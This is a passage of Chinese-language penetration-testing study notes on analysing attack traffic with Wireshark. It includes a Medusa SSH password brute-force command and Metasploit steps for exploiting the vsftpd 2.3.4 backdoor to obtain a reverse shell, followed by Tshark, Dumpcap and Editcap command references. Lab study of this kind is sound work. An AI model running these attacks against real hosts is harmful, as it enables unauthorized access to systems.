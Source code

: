 命令：medusa -h 192.168.128.1 -u root -M ssh -P pass.txt

参数： 

- -h ：目标IP地址
- -u：指定连接的用户名(只需暴力破解密码即可)
- -M：破解的模块
- -P：密码字典

然后使用 wireshark 抓 ssh 的包

11.3.2 后门分析：分析 vsftpd 2.3.4 隐藏后门(笑脸后门)

![12](E:\Study\渗透分析和漏洞测试\picture\69.png)

通过 metasploit framework 进行攻击，步骤如下：

- search vsftpd：寻找对应的漏洞利用代码
- use exploit/unix/ftp/vsftpd_234_backdoor：运行代码
- show options：查看设置选项，设置目标IP地址
- exploit：建立连接，获得反弹shell

wireshark 抓取 ftp 数据包。

**12. wireshark 辅助工具**

★12.1 Tshark(wireshark 命令行工具)

常见命令：

- tshark -D：查看当前网卡
- tshark -i eth0：指定eth0网卡为抓取目标
- tshark -f 'tcp dst port 80'：抓取特定数据包(目标端口为 80 的 TCP 数据包，其实也就是 http 包)
- tshark -i eth0 -f 'tcp dst port 80' -R 'http.request'：抓取 HTTP 请求包
- tshark -w 文件名：输出 cap 文件
- tshark -r 文件名：读取 cap 文件

12.2 Dumpcap

类似 Tshark 工具，优势在于资源消耗比较小

常见命令：

- dumpcap：默认抓取 eth0 网卡的数据包
- dumpcap -D：显示网卡
- dumpcap -i eth0 -f 'tcp dst port 80'：抓取 eth0 网卡上目标端口为 80 的TCP数据包

详细文档：www.wireshark.org/docs/man-pages/dumpcap.html

12.3 Editcap

功能：**分割大文件为小文件**，Editcap 可以通过开始时间和结束时间来获取数据包文件的子集，删除数据包文件中的重复数据。

- editcap -r infile outfile 1-10：提取前10个数据包为新文件

  注：使用 -r 参数，否则原始数据包被删除

- editcap -c 2 infile outfile(.pcapng格式)：将数据包文件拆分，按照每2个数据包为一个新文件

- editcap -d infile outfile：删除数据包中重复内容
